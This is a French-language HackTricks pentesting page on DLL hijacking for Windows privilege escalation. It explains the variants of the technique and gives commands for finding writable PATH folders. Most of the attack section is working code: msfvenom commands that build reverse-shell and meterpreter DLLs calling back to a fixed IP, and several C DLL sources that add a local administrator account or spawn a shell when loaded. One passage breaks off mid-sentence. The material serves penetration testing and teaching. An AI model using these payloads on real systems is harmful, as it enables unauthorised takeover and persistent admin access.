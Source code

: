 # Dll Hijacking

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="original">

Si vous êtes intéressé par une **carrière en piratage** et que vous voulez pirater l'impossible - **nous recrutons !** (_maîtrise du polonais écrit et parlé requis_).

{% embed url="https://www.stmcyber.com/careers" %}

## Définition

Tout d'abord, définissons le terme. Le détournement de DLL consiste, dans le sens le plus large, à **tromper une application légitime/fiable pour qu'elle charge une DLL arbitraire**. Les termes tels que _DLL Search Order Hijacking_, _DLL Load Order Hijacking_, _DLL Spoofing_, _DLL Injection_ et _DLL Side-Loading_ sont souvent - à tort - utilisés pour dire la même chose.

Le détournement de DLL peut être utilisé pour **exécuter** du code, obtenir une **persistance** et **escalader les privilèges**. Parmi ces 3 options, la **moins probable** à trouver est l'**escalade de privilèges** de loin. Cependant, comme cela fait partie de la section d'escalade de privilèges, je me concentrerai sur cette option. Notez également que, indépendamment de l'objectif, un détournement de DLL est effectué de la même manière.

### Types

Il existe une **variété d'approches** à choisir, le succès dépendant de la façon dont l'application est configurée pour charger ses DLL requises. Les approches possibles comprennent :

1. **Remplacement de DLL** : remplacer une DLL légitime par une DLL malveillante. Cela peut être combiné avec le _DLL Proxying_ \[[2](https://kevinalmansa.github.io/application%20security/DLL-Proxying/)], qui garantit que toutes les fonctionnalités de la DLL d'origine restent intactes.
2. **Hijacking de l'ordre de recherche de DLL** : les DLL spécifiées par une application sans chemin sont recherchées dans des emplacements fixes dans un ordre spécifique \[[3](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)]. Le détournement de l'ordre de recherche se produit en plaçant la DLL malveillante dans un emplacement qui est recherché avant la DLL réelle. Cela inclut parfois le répertoire de travail de l'application cible.
3. **Hijacking de DLL fantôme** : déposez une DLL malveillante à la place d'une DLL manquante/inexistante que tente de charger une application légitime \[[4](http://www.hexacorn.com/blog/2013/12/08/beyond-good-ol-run-key-part-5/)].
4. **Redirection de DLL** : changer l'emplacement dans lequel la DLL est recherchée, par exemple en modifiant la variable d'environnement `%PATH%`, ou les fichiers `.exe.manifest` / `.exe.local` pour
```bash
accesschk.exe -dqv "C:\Python27"
icacls "C:\Python27"
```
Et **vérifiez les permissions de tous les dossiers à l'intérieur de PATH**:
```bash
for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
```
Vous pouvez également vérifier les imports d'un exécutable et les exports d'une dll avec:
```c
dumpbin /imports C:\path\Tools\putty\Putty.exe
dumpbin /export /path/file.dll
```
Pour un guide complet sur la façon d'**utiliser le détournement de DLL pour escalader les privilèges** avec des autorisations d'écriture dans un dossier **System Path**, consultez :

{% content-ref url="dll-hijacking/writable-sys-path-+dll-hijacking-privesc.md" %}
[writable-sys-path-+dll-hijacking-privesc.md](dll-hijacking/writable-sys-path-+dll-hijacking-privesc.md)
{% endcontent-ref %}

### Outils automatisés

[**Winpeas**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) vérifiera si vous avez des autorisations d'écriture sur un dossier à l'intérieur du chemin système.\
D'autres outils automatisés intéressants pour découvrir cette vulnérabilité sont les fonctions de **PowerSploit** : _Find-ProcessDLLHijack_, _Find-PathDLLHijack_ et _Write-HijackDll._

### Exemple

Dans le cas où vous trouvez un scénario exploitable, l'une des choses les plus importantes pour l'exploiter avec succès serait de **créer une DLL qui exporte au moins toutes les fonctions que l'exécutable importera d'elle**. Quoi qu'il en soit, notez que le détournement de DLL est pratique pour [passer du niveau d'intégrité moyen à élevé **(en contournant UAC)**](../authentication-credentials-uac-and-efs.md#uac) ou de [**l'intégrité élevée à SYSTEME**](./#from-high-integrity-to-system)**.** Vous pouvez trouver un exemple de **comment créer une DLL valide** dans cette étude de détournement de DLL axée sur le détournement de DLL pour l'exécution : [**https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows**](https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows)**.**\
De plus, dans la **section suivante**, vous pouvez trouver quelques **codes DLL de base** qui pourraient être utiles en tant que **modèles** ou pour créer une **DLL avec des fonctions non requises exportées**.

## **Création et compilation de DLL**

### **Proxy DLL**

Fondamentalement, un **proxy DLL** est une DLL capable d'**exécuter votre code malveillant lorsqu'elle est chargée**, mais aussi de **s'exposer** et de **fonctionner** comme **attendu** en **relayant tous les appels à la bibliothèque réelle**.

Avec l'outil **** [**DLLirant**](https://github.com/redteamsocietegenerale/DLLirant) **** ou **** [**Spartacus**](https://github.com/Accenture/Spartacus) ****, vous pouvez en fait **indiquer un exécutable et sélectionner la bibliothèque** que vous voulez proxifier et **générer une DLL proxifiée** ou **indiquer la DLL** et **générer une DLL proxifiée**.

### **Meterpreter**

**Obtenir une shell inversée (x64) :**
```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
**Obtenir un meterpreter (x86) :**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```
**Créer un utilisateur (je n'ai pas vu de version x64) :**
```
msfvenom -p windows/adduser USER=privesc PASS=Attacker@123 -f dll -o msf.dll
```
### Le vôtre

Notez que dans plusieurs cas, la DLL que vous compilez doit **exporter plusieurs fonctions** qui vont être chargées par le processus victime. Si ces fonctions n'existent pas, le **binaire ne pourra pas les charger** et l'**exploit échouera**.
```c
// Tested in Win10
// i686-w64-mingw32-g++ dll.c -lws2_32 -o srrstr.dll -shared
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            system("whoami > C:\\users\\username\\whoami.txt");
            WinExec("calc.exe", 0); //This doesn't accept redirections like system
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
```

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
    if (dwReason == DLL_PROCESS_ATTACH){
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

```c
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a

#include <windows.h>

int owned()
{
  WinExec("cmd.exe /c net user cybervaca Password01 ; net localgroup administrators cybervaca /add", 0);
  exit(0);
  return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  owned();
  return 0;
}
```

```c
//Another possible DLL
// i686-w64-mingw32-gcc windows_dll.c -shared -lws2_32 -o output.dll

#include<windows.h>
#include<stdlib.h>
#include<stdio.h>

void Entry (){ //Default function that is executed when the DLL is loaded
    system("cmd");
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call){
        case DLL_PROCESS_ATTACH:
            CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DEATCH:
            break;
    }
    return TRUE;
}
```
<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="original">

Si vous êtes intéressé par une **carrière en piratage** et souhaitez pirater l'impossible - **nous recrutons !** (_maîtrise du polonais à l'écrit et à l'oral requise_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Travaillez-vous dans une **entreprise de cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR au** [**repo hacktricks**](https://github.com/carlospolop/hacktricks) **et au** [**repo hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

